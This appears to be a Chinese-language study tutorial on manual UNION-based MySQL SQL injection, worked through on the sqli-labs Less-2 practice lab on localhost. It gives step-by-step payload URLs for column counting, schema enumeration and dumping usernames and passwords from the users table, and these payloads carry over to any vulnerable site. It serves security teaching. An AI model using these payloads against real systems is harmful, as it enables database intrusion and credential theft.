







# SQL注入之MYSQL手工注入

本章节重点在于熟悉注入流程，以及注入原理。练习靶场为sqli-labs第二关数字型注入。

### sqli-labs数字型注入


在url中输入id值，执行查询sql语句。即可得到对应数据

less-2源码分析：


浏览器 进行数据提交  服务器  ：

```
get 提交  ：  url   数据长度 
     速度快  
	 用于： 

post 提交 ： 服务器    安全性   数据量 
```

### 注入流程


### 注入语句

```
尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  则有注入点
		              ==若没有任何报错和提示信息  则没有注入
		2.猜解列名数量 order by 
		比如:http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=3 order by 3
		‘%20’在网页的url被转义成空格
		字段 4个

		3.报错，判断回显点 union 
		比如:http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,2,3
		4.信息收集 
		通过回显点去查看系统的信息
		  数据库版本 version()
		  比如:http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,version(),3
		  
		  高版本：5.0以上  
			系统库： infromation 。。。
		  数据库名称：database（）
		  低版本：5.0以下
		5.使用对应SQL进行注入  
			数据库库名：security
			数据库.表  
		infromation_schema.tables 查找表名
		table_name
		查询serurity库下面 所有的表名 

		database（）


		= 前后 连到一起
		union select 1,group_concat(table_name),3 from information_schema.tables
		where table_schema=database()

		表： users
		如何查询表里面有那些字段？ 
		user 字符 转行 16进制
		union select 1,group_concat(column_name),3 from information_schema.columns
		where table_name=0x7573657273

		username  password  字段数据  
		select username,password from users
		0x3a指的是:用于作为连接符
		union select 1,2,(select group_concat(username,0x3a,password)from users)
		  
```

#### 具体流程

靶场使用sqli-labs的第二关

判断注入点,随便在网页url，给id随便输入值

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=sda
```

有报错信息，说明有注入点

	

由于order by为4就报错，而3没有报错，说明该网站查询的数据中的表只有3个字段。

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=3 order by 4
```

	

由于有三个字段，所以通过union来判断网站有哪些回显点。union前半部分故意输错，后面的select用于判断有哪些网站的回显点。

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,2,3
```

	

根据网站回显的位置，去查询该网站使用的数据库名称和版本信息

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,version(),database()
```

	

得知该网站所使用的数据库名，接下来查询该数据库的表有哪些，通过mysql的系统库即可查询到。其中group_concat可以在网页显示会符合视觉效果，以免过于难看。

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
```

	

由于拥有user表,我们可以查看user表有哪些字段

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=‘users’
```

	

得知user表的账户和密码字段，即可查询

```
http://127.0.0.1/sqli-labs-php7-master/Less-2/?id=-1 union select% 1,2,(select group_concat(username,0x3a,password)from users)
```

	


